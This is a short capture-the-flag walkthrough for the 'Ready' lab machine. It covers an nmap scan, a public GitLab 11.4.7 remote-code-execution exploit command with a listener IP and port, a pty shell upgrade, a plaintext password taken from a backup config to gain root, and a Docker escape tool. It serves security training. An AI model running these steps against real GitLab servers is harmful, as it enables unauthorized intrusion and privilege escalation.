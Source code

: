 Ready
==================
```
Nmap scan report for 10.10.10.220
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen
``` 
On this machine we found open ports at 22 (SSH) and 5080. Visting the website on port 5080 we are given a Sign In Page of GitLab.
We can create a new User.

On the help page we find the version number with the hint to update asap:

![gitlabhelp.png](images/gitlabhelp.png)

Searching online for vulnerabilities of that version we find:
https://github.com/ctrlsam/GitLab-11.4.7-RCE

with:
```
python3 exploit.py -u [selbst_erstellter_user] -p [selbst_erstelltes_passwort] -g http://ready.htb -l [DEINE_IP_DU_SHIT] -P 4444
```
and a listener we al#ready# got user access.
The exploit will create a project and do some magic to get a shell.

root:
-------------------

To get a better shell we can use:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
With a little bit of enumeration an the standard john password grepper we find an password in /opt/backup/gitlab.rb.
In the gitlab.rb the gitlab rails smtp password is set to: wW59U!ZKMbG9+*#h

Just by trying 'su' and the given password we became root. But we are still inside the docker.
To escape we can use: https://github.com/PercussiveElbow/docker-escape-tool

quite enough:
```
./docker-escape check
```
An other way: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

Now we escaped the docker ant rooted the machine.
